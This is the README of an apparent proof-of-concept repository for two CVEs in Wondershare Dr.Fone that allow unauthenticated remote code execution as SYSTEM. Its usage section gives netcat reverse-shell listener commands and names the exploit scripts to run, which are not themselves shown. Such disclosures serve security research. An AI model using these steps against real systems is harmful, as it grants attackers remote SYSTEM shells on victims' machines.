 # WonderShell
# CVE - 2021-44595 & CVE - 2021-44596

## Discovered by
Netanel Cohen and Tomer Peled a Security Researchers from BugSec.

## Details
POC example to exploit [Wondershare Dr.Fone](https://drfone.wondershare.com/) .
Dr.Fone is a phone toolkit develop by wondershare , and vulnerable to RCE.\
As unauthenticated user we manage to execute remote code as SYSTEM user.

Vulnerable services:
>InstallAssistService.exe\
>ElevationService.exe

Tested on versions : 12.0.7 , 11.4

## Usage
Change ip and port and execute.

```
stty raw -echo; (stty size; cat) | nc -lvnp 1338
./ElevationServiceRCE.py
```

```
nc -lvnp 1337
./InstallAssistServiceRCE.py
```


## Publications


